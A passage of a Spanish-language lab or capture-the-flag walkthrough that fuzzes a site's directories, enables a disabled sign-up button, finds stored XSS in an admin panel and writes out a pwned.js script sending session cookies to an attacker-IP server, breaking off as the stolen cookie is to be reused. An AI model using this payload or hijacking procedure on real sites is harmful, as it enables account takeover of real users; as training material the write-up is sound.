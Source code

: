 Posteriormente, realizamos un fuzz para ubicar qué directorios tiene disponible la página. Para eso, usamos Gobuster con el siguiente comando:

![[Pasted image 20240920213705.png]]

Una vez encontrados los directorios, nos quedamos con el directorio "admin" y realizamos un fuzzeo para que nos reconozca todos los tipos de archivos en formato PHP. Esto lo realizamos de la siguiente forma, añadiendo el directorio que queremos fuzzear y el `-x php`:

![[Pasted image 20240920214025.png]]

Posteriormente, intentamos autenticar en el terminal. Como no nos deja, nos creamos un usuario, pero como solo permite habilitar el usuario internamente, editamos el código HTML en el botón de "Sign Up" y le borramos la opción **disabled**, de la siguiente forma. Después de esto, nos dejaría crear el usuario:

![[Pasted image 20240920215139.png]]

Después de haber hecho esto, podemos ver en el panel de `/admin/admin.php` que el usuario está correctamente registrado.

Una vez hecho esto, probamos en el panel de autenticación si el formulario tiene vulnerabilidades de XSS de la siguiente forma:

![[Pasted image 20240920215641.png]]

Y como vemos en la siguiente foto del panel `/admin/admin.php`, es susceptible a explotación vía XSS:

![[Pasted image 20240920215822.png]]

Una vez que ya sabes que es susceptible a vulnerabilidades XSS, lo que hacemos es realizar un script en la página que lo lleve a una fuente de nuestro servidor para descargarse un archivo JS de la siguiente manera, con el `src` apuntando a nuestra IP de atacante:

![[Pasted image 20240920220959.png]]

Una vez hecho esto, abrimos un servidor con `python3 -m http.server 80` y esperamos que alguien se loguee para, primero, ver si hay actividad de usuarios y, segundo, empezar a construir el script `pwned.js` para que robe cookies de sesión. El script `pwned.js` se tendría que ver de la siguiente forma:

```js
var request = new XMLHttpRequest();
request.open('GET', 'http://ipAtacante/?cookie=' + document.cookie);
request.send();

```

Una vez hecho el script, abrimos el servidor y esperamos que alguien ingrese para que nos devuelva su cookie de sesión:

![[Pasted image 20240920221800.png]]

Con la cookie de sesión, lo único que hacemos es ir al panel de autenticación y cambiar nuestra cookie de sesión por la cookie robada de la siguiente forma:
